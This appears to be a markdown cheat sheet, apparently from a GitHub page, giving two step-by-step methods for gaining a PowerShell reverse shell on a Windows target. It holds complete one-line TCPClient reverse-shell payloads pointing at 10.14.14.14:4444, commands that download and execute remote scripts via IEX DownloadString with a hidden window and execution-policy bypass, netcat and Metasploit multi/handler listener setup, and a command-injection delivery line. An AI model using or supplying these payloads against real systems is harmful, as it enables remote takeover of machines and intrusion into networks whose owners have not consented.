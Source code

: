 # PowerShell Reverse Shell

## Option 1

1. Download [powershell_reverse_shell.ps1](https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1)

2. Start a listener on attacker machine

        nc -nlvp 3001

3. Execute following command on the remote machine to obtain a PowerShell reverse shell
   
        powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<ATTACKER_IP_ADDRESS>:4444/powershell_reverse_shell.ps1')"

## Option 2

1. Create `reverse_shell.ps1` PowerShell script with following content

        $client = New-Object System.Net.Sockets.TCPClient('10.14.14.14',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
        $sm=(New-Object Net.Sockets.TCPClient('10.14.14.14',4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}

2. Serve the file using a Python3 server (or anything else)

        python3 -m http.server 8000

3. Start `multi/handler` listener using Metasploit

        msfconsole
        use exploit/multi/handler
        set payload windows/shell/reverse_tcp
        set lhost <Attacker_IP>
        set lport 4444
        exploit -j  

4. Deliver exploit via command injection

        powershell.exe -executionpolicy bypass -w hidden "iex(New-Object System.Net.WebClient).DownloadString('http://10.14.14.14:8000/reverse_shell.ps1'); reverse_shell.ps1"

5. View the captured session in Metasploit

        sessions -l
        sessions -i 1

## References

* https://gist.githubusercontent.com/egre55/c058744a4240af6515eb32b2d33fbed3/raw/2c6e4a2d6fd72ba0f103cce2afa3b492e347edc2/powershell_reverse_shell.ps1
* https://blog.geoda-security.com/2019/03/reverse-shell-in-memory-utilizing.html